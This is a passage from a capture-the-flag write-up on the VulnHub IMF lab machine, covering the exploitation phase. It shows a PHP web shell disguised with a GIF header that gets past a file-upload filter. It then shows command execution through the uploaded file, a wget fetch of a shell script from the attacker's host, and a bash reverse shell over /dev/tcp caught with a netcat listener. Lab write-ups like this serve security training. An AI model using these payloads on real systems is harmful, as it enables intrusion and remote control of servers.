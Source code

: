 ## Phase #2: Exploitation
1\. The `http://192.168.92.178/imfadministrator/uploadr942.php` page has a file upload functionality. We tried different methods to evade the `CrappyWAF` filters and ended up using a minimal command execution page with GIF header and extension as the final payload. Once the file is uploaded, it's destination file name is leaked within HTML comments on the result page. We can use this uploaded file to get command execution:  
```
cat cmd.gif
  GIF89a
  <?php $out=$_GET["cmd"]; echo `$out`; ?>
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=uname
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_imf/screenshot12.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_imf/screenshot13.png.webp)  

2\. While exploring the local directory `/var/www/html/imfadministrator/uploads` we find a `flag5_abc123def.txt` file with the fifth flag:  
```
cat flag5_abc123def.txt
  flag5{YWdlbnRzZXJ2aWNlcw==}
    b64d "YWdlbnRzZXJ2aWNlcw=="
      agentservices
```

3\. We proceeded to convert our command execution payload into a fully interactive shell. We had to upload a bash reverse shell script and execute it via command injection as other methods did not work:  
```
sharehttp 9090
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=wget%20http://192.168.92.179:9090/shell.sh
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=cat%20shell.sh
  GIF89a /bin/bash -i >& /dev/tcp/192.168.92.179/443 0>&1
nc -nlvp 443
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=bash%20shell.sh
```
